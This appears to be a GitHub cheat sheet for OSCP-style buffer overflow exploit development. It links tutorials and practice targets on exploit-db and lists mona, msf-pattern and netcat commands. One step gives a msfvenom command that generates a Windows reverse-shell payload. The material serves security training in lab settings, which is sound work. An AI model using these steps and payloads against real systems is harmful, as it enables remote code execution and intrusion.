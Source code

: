 # Buffer Overflow Cheat Sheet
## Tutorials / Methodologies
* https://github.com/gh0x0st/Buffer_Overflow
* https://infosecsanyam261.gitbook.io/tryharder/buffer-overflow
* https://blog.own.sh/introduction-to-network-protocol-fuzzing-buffer-overflow-exploitation/
* https://veteransec.com/2018/09/10/32-bit-windows-buffer-overflows-made-easy/
* https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/buffer-overflow
* https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/
* https://eazeysec.com/BOF-Method/
* http://www.primalsecurity.net/tutorials/exploit-tutorials/
* http://www.fuzzysecurity.com/tutorials.html
* Jump to shellcode:
  * https://www.abatchy.com/2017/05/jumping-to-shellcode.html
  * https://www.securitysift.com/windows-exploit-development-part-4-locating-shellcode-jumps/

## Common Tips
1. Running Vulnerable-apps, then use netcat to makesure the shell connection, and test the function for buffer storing
```
netcat <target_ip> <port>
```

2. Fuzzing ([Fuzzer.py](https://github.com/rdoix/Buffer-Overflow-Cheat-Sheet/blob/master/Fuzzer.py))

3. Add pattern for crash replication and controlling EIP
```
msf-pattern_create -l $length
msf-pattern_offset -q $EIP
```

  4. Compare the bad chars
```
   !mona bytearray
   !mona compare -f C:\mona\output.bin -a <address>
```

  5. keep the same order of outputs
```
msf-nasm_shell
   nasm > jmp esp
   00000000  FFE4              jmp esp
```

  6. show and select a dll module
```
!mona modules
```  
  7. find address of "jmp esp" (xff xe4)
```
!mona find -s "\xff\xe4" -m "suspectmodule.dll"
```
  8. find "pop,pop,ret" for SEH
```
!mona seh -m "$module"
```
  9. generate Windows reverse shell
```
msfvenom -p windows/shell_reverse_tcp LHOST=$IP LPORT=$PORT -f c -e x86/shell -b "\x00"
```

## Tools
* [Immunity Debugger](https://www.immunityinc.com/products/debugger/): A powerful new way to write exploits, analyze malware, and reverse engineer binary files ([whitepaper](https://www.sans.org/reading-room/whitepapers/malicious/basic-reverse-engineering-immunity-debugger-36982), [course](https://yaksas-csc.teachable.com/p/immunity-debugger-for-exploit-devs-ycsc-lab-essentials))

* [OllyDbg](http://www.ollydbg.de/): A 32-bit assembler level analysing debugger for Microsoft Windows ([tut]())

* [Windbg](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-download-tools): A kernel-mode and user-mode debugger that is included in Debugging Tools for Windows ([tut]())

* [edb](https://github.com/eteran/edb-debugger): A Linux equivalent of the famous Olly debugger on the Windows platform.

* [Boofuzz](https://github.com/jtpereyda/boofuzz): Network Protocol Fuzzing for Humans

* [mona](https://github.com/corelan/mona): A Python script that can be used to automate and speed up specific searches while developing exploits (typically for the Windows platform) ([tut](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/), [cheatsheet](https://www.corelan.be/index.php/2010/01/26/starting-to-write-immunity-debugger-pycommands-my-cheatsheet/))
```
!mona findmsp
!mona modules [ -o ]: (-o: only in the application which is more reliable)
!mona jmp -r esp [ -o ] 
!mona seh       
!mona seh -m -o
!mona bytearray -cpb "\x00"
!mona compare -f c:\mona\pcmanftpd2\bytearray.bin -a 0012ED6C
!mona find -s "\xff\xe4" -m "libspp.dll"
!mona findmsp
```
* [WinDBG](http://www.windbg.org/): A kernel-mode and user-mode debugger that is included in Debugging Tools for Windows

## Exploitation for Practice
* PWK 2020
  * - [x] SyncBreeze version 10.0.28 ([exploit](https://www.exploit-db.com/exploits/42928), [code](https://github.com/Hamza-Megahed/pentest-with-shellcode/tree/master/10-real-world-scenarios-part2))
  * - [x] PWK Crossfire-server 1.9.0 ([exploit](https://www.exploit-db.com/exploits/1582))
  * - [x] PWK Extra Mile Exercises: VulnApp1.exe, VulnApp2.exe, and VulnApp3.exe
  * - [x] PWK Fixing Exploits Sync Breeze Enterprise 10.0.28
* Vunlserver ([github](https://github.com/stephenbradshaw/vulnserver), [tut](http://www.thegreycorner.com/p/vulnserver.html?m=1), [exploited functions](https://limbenjamin.com/articles/vulnserver-order-of-difficulty.html), [TRUN exploit](https://fullpwnops.com/vulnserver-trun/))
* Easy File Sharing Web Server 7.2 ([exploit](http://strongcourage.github.io/2020/04/19/bof.html), [code](https://github.com/Hamza-Megahed/pentest-with-shellcode/tree/master/11-real-world-scenarios-part3), [tut](https://h0mbre.github.io/Easy_File_Sharing_Web_Server/))
* Seattle Lab Mail (SLmail) 5.5 ([python exploit](https://www.exploit-db.com/exploits/638), [C exploit](https://www.exploit-db.com/exploits/646))
* Freefloat FTP Server 1.0 ([exploit](https://www.exploit-db.com/exploits/17546))
* MiniShare 1.4.1 ([exploit](https://www.exploit-db.com/exploits/636))
* Savant Web Server 3.1 ([exploit](https://www.exploit-db.com/exploits/10434))
* WarFTP 1.65 ([exploit](https://www.exploit-db.com/exploits/3570))
* BigAnt Server 2.52 ([exploit](https://www.exploit-db.com/exploits/10973), [tut](http://www.primalsecurity.net/0x3-exploit-tutorial-buffer-overflow-seh-bypass/))
* ASX to MP3 Converter 1.82.50 ([exploit](https://www.exploit-db.com/exploits/38457), [tut](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/))
* Easy RM to MP3 Converter ([exploit](https://www.exploit-db.com/exploits/9186))
* Zip-n-Go 4.9 ([exploit](https://www.exploit-db.com/exploits/44828), [FileFuzz](http://www.fuzzing.org/wp-content/FileFuzz.zip))
* IDSECCONF 2013 myftpd challenge ([tut-xp](https://buffered.io/posts/idsecconf-2013-myftpd-challenge/), [tut-win7](https://buffered.io/posts/myftpd-exploit-on-windows-7/))
* QuickZip 4.x ([exploit](https://www.exploit-db.com/exploits/11656), [tut1](https://www.offensive-security.com/vulndev/quickzip-stack-bof-0day-a-box-of-chocolates/), [tut2](https://blog.knapsy.com/blog/2017/05/01/quickzip-4-dot-60-win7-x64-seh-overflow-egghunter-with-custom-encoder/))
* Easy Chat Server 3.1 ([tut](https://www.onsecurity.co.uk/blog/buffer-overflow-easy-chat-server-31))
* dostackbufferoverflowgood ([exploit & tut](https://github.com/justinsteven/dostackbufferoverflowgood))
* Vulnhub machines: [Brainpan series](https://www.vulnhub.com/series/brainpan,32/), [SmashTheTux: 1.0.1](https://www.vulnhub.com/entry/smashthetux-101,138/), [Cyberry: 1](https://www.vulnhub.com/entry/cyberry-1,217/), [Pinky’s Palace series](https://www.vulnhub.com/series/pinkys-palace,151/), [Lord Of The Root: 1.0.1](https://www.vulnhub.com/series/lord-of-the-root,67/)

### Structured Exception Handler (SEH)
* Konica Minolta FTP Utility 1.00 ([exploit](https://www.exploit-db.com/exploits/39215), [tut](https://www.youtube.com/watch?v=v0C4M0UpDbc))
* Millenium MP3 Studio 2.0 ([exploit](https://www.exploit-db.com/exploits/10240), [tut](https://fullpwnops.com/local-seh-overflow/))
* IntraSRV 1.0 ([exploit](https://cxsecurity.com/issue/WLB-2019100164), [tut](https://fullpwnops.com/CVE-2019-17181-intrasrv-writeup/))
* File Sharing Wizard 1.5.0 ([exploit](https://www.exploit-db.com/exploits/47412), [tut](https://fullpwnops.com/CVE-2019-16724-Remote-Unauthenticated-SEH-overflow/))

### More Targets
* https://github.com/freddiebarrsmith/Buffer-Overflow-Exploit-Development-Practice
* https://www.vortex.id.au/2017/05/pwkoscp-stack-buffer-overflow-practice/
* https://exploit.education/
* https://overthewire.org/wargames/narnia/
* Useful links: https://github.com/security-prince/PWK-OSCP-Preparation-Roadmap/blob/master/BOF

### Advanced Topics for OSCE
* Windows drivers: https://github.com/hacksysteam/HackSysExtremeVulnerableDriver
* https://github.com/dhn/OSCE
* https://purpl3f0xsec.tech/2019/06/18/osce-prep-1.html
* Windows Exploitation Pathway
* https://github.com/epi052/OSCE-exam-practice

## Books
* Hacking - The Art of Exploitation
* The Shellcoder’s Handbook: Discovering and Exploiting Security Holes
* Buffer Overflow Attacks: Detect, Exploit, Prevent
* Writing Security Tools and Exploits
* Penetration Testing with Shellcode: Detect, exploit, and secure network-level and operating system vulnerabilities
```
# From Kali, run first
~/OSCP/windows_buffer_overflows$ nc -l -p 1234 > VulnApp1.exe
# From Windows
C:\Tools\windows_buffer_overflows> nc -w 3 192.168.119.223 1234 < VulnApp1.exe

# Windows 10: Bridged Adapter network
# Kali: NAT network
```

* Download windows 10 x86 ISO: https://www.microsoft.com/en-gb/software-download/windows10ISO

# 
_Reffrence http://strongcourage.github.io/2020/04/19/bof.html_

